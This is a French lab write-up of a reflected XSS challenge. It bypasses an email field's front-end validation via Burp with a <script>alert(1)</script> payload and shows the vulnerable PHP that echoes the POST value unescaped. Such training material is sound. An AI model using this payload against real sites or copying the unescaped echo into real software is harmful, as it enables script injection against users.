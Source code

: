 # xss1

## Exploitation

Le premier challenge propose de renseigner son adresse email grâce à formulaire HTML :&#x20;

![](<../../../.gitbook/assets/image (7) (1) (3).png>)

Le champ est de type `email` et possède donc une validation front :

```html
<input type="email" class="form-control" id="user_email" name="user_email" placeholder="email@site.com" required>
```

![](<../../../.gitbook/assets/image (14) (4).png>)

Pour injecter ma payload il me faudra contourner cette protection, ici en passant par Burp :&#x20;

```http
POST /xss1/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss1/

user_email=<script>alert(1)</script>&submit=Envoyer
```

L'injection fonctionne et la boite de dialogue s'affiche :&#x20;

![](<../../../.gitbook/assets/image (5) (2) (1).png>)

## Analyse du code source

L'analyse est ici plutôt simple, car le code PHP ne possède aucune protection et ne fait qu'afficher le contenu de la variable `$_POST['user_email']` via la directive `echo` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }
?>

<?php if (isset ($email) && !empty ($email)): ?>
  <div class="row">
    <p style="color:red;" class="well"><strong></strong><?php echo $email; ?> is not registered.</p>
  </div>
<?php endif; ?>
```
